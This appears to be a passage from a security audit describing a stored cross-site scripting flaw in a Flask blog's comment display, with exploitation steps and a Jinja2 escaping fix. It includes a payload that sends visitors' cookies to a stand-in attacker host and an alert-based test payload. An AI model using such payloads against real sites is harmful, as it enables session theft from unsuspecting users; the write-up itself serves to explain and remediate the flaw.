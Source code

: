 In the view_post route, the comments are retrieved and passed to the template:

```python
@app.route('/post/<int:post_id>')
def view_post(post_id):
    # ... other code ...

    # Get comments
    comments = Comment.query.filter_by(post_id=post_id).order_by(Comment.timestamp.desc())

    return render_template('view_post.html',
                          post=post,
                          author=author,
                          comments=comments,
                          current_user=current_user,
                          has_liked=has_liked)
```

The template likely renders the comment content directly without escaping, allowing script execution.

### Exploitation

1. An attacker can post a comment containing malicious JavaScript code
2. Example payload: `<script>fetch('https://attacker.com/steal?cookie='+document.cookie)</script>`
3. When other users view the post with this comment, the JavaScript will execute in their browsers

Step-by-step exploitation:

1. Navigate to a post
2. Add a comment with the following content: `<script>alert(document.cookie)</script>`
3. Submit the comment
4. When any user (including the attacker) views the post, they will see an alert box displaying their cookies

This vulnerability can be used to steal session cookies, perform actions on behalf of the victim, or redirect users to phishing sites.

### Remediation

To fix this vulnerability, the application should properly escape or sanitize user input before displaying it. This can be done using template engine escaping features or HTML sanitization libraries.

### Fixed Code

If using Flask with Jinja2 templates, ensure that the template uses the `{{ }}` syntax which automatically escapes HTML:

```html
<!-- In view_post.html template -->
{% for comment in comments %}
<div class="comment">
  <p>{{ comment.content }}</p>
  <!-- Content is automatically escaped -->
</div>
{% endfor %}
```
